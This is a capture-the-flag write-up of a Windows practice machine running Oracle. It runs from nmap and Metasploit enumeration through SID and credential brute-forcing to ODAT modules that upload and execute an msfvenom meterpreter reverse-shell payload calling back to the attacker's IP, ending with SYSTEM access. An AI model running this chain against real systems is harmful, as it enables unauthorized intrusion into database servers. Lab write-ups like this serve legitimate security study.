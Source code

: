 Windows | Medium
#oracle #metasploit

- Ran NMAP scan
```NMAP-SILO FOLD
# Nmap 7.93 scan initiated Wed Jan  3 22:32:52 2024 as: nmap -sCV -v -oA nmap_out 10.129.95.188
Nmap scan report for 10.129.95.188
Host is up (0.069s latency).
Not shown: 913 closed tcp ports (conn-refused), 75 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-01-03T22:34:55
|_  start_date: 2024-01-03T22:31:38
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   302: 
|_    Message signing enabled but not required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  3 22:35:02 2024 -- 1 IP address (1 host up) scanned in 129.50 second
```
- items of interest here are obviously the Oracle services
- the rpc and smb ports were somewhat interesting too, I prodded at those for a minute with smbclient and smbmap, but failed auth. No anonymous or guest auth allowed. 
- started msfconsole and searched oracle tns listener
```msfconsole_search FOLD
[msf](Jobs:0 Agents:0) >> search oracle tns listener

Matching Modules
================

   #  Name                                        Disclosure Date  Rank    Check  Description
   -  ----                                        ---------------  ----    -----  -----------
   0  exploit/windows/oracle/tns_auth_sesskey     2009-10-20       great   Yes    Oracle 10gR2 TNS Listener AUTH_SESSKEY Buffer Overflow
   1  exploit/windows/oracle/tns_arguments        2001-06-28       good    Yes    Oracle 8i TNS Listener (ARGUMENTS) Buffer Overflow
   2  exploit/windows/oracle/tns_service_name     2002-05-27       good    Yes    Oracle 8i TNS Listener SERVICE_NAME Buffer Overflow
   3  auxiliary/scanner/oracle/tnspoison_checker  2012-04-18       normal  No     Oracle TNS Listener Checker
   4  auxiliary/admin/oracle/tnscmd               2009-02-01       normal  No     Oracle TNS Listener Command Issuer
   5  auxiliary/admin/oracle/sid_brute            2009-01-07       normal  No     Oracle TNS Listener SID Brute Forcer
   6  auxiliary/scanner/oracle/sid_brute                           normal  No     Oracle TNS Listener SID Bruteforce
   7  auxiliary/scanner/oracle/sid_enum           2009-01-07       normal  No     Oracle TNS Listener SID Enumeration
   8  auxiliary/scanner/oracle/tnslsnr_version    2009-01-07       normal  No     Oracle TNS Listener Service Version Query

```
- I tried pretty much all of these just to see what I could get done. The sid_brute scanner returned some interesting results
```SID_BRUTE FOLD
[*] 10.129.95.188:1521    - Checking 572 SIDs against 10.129.95.188:1521
[+] 10.129.95.188:1521    - 10.129.95.188:1521 Oracle - 'XE' is valid
[+] 10.129.95.188:1521    - 10.129.95.188:1521 Oracle - 'PLSEXTPROC' is valid
[+] 10.129.95.188:1521    - 10.129.95.188:1521 Oracle - 'CLREXTPROC' is valid
[+] 10.129.95.188:1521    - 10.129.95.188:1521 Oracle - '' is valid
[*] 10.129.95.188:1521    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
- I also tried my luck with nmap oracle-brute script and got these results
```nmap_oracle-brute FOLD
[*] Nmap: |   Accounts:
[*] Nmap: |     ctxsys:change_on_install - Account is locked
[*] Nmap: |     dip:dip - Account is locked
[*] Nmap: |     system:oracle9 - Account is locked
[*] Nmap: |     xdb:change_on_install - Account is locked
[*] Nmap: |     dbsnmp:dbsnmp - Account is locked
[*] Nmap: |     hr:change_on_install - Account is locked
[*] Nmap: |     mdsys:mdsys - Account is locked
[*] Nmap: |     outln:outln - Account is locked
```
- I got stuck at this point and looked to walkthroughs. 
- Focusing on the XE account, we can use the open source tool, ODAT 
	- https://github.com/quentinhardy/odat
	- worth noting that I didn't want to go through the install of the dev version, even though that's recommend. Since it's just for this one off use, I will try the standalone.
- this tool can help you guess the SIDs as well (with sidguesser module), but I already got that
- Moved on to passwordguesser module
	- `./odat-libc2.17-x86_64 passwordguesser -s 10.129.37.47 -d XE`
- passwordguesser module comes back with a successful user/pass combo
	- scott/tiger
- with username/pass combo, we can use other modules in odat to upload and execute remote code: 
- Make payload with msfvenom
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.130 LPORT=4444 -f exe > reverse.exe`
- Upload with odat utlfile module
	- `./odat-libc2.17-x86_64 utlfile -s 10.129.37.47 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ reverse.exe reverse.exe`
- execute file with externaltable module
	- `./odat-libc2.17-x86_64 externaltable -s 10.129.37.47 -p 1521 -U scott -P tiger -d XE --sysdba --getFile c:/ reverse.exe reverse.exe`
- This should've worked, but I'm getting an error: 
	- `ORA-29913: error in executing ODCIEXTTABLEFETCH callout ORA-30653: reject limit reached
- May be some kind of limit I hit by the brute forcing I've done or it could be something with the architecture of the payload (maybe use windows/x64?)
- came back to this after a couple days and re-read through the module options
	- noticed there is an --exec switch in the externaltable module. I used the following command to run the reverse.exe and establish a meterpreter shell! (side note: victim endpoint changed ips.)
	- `/odat-libc2.17-x86_64 externaltable -s 10.129.27.30 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ reverse.exe`
- That got me SYSTEM privs - gg

COMPLETE!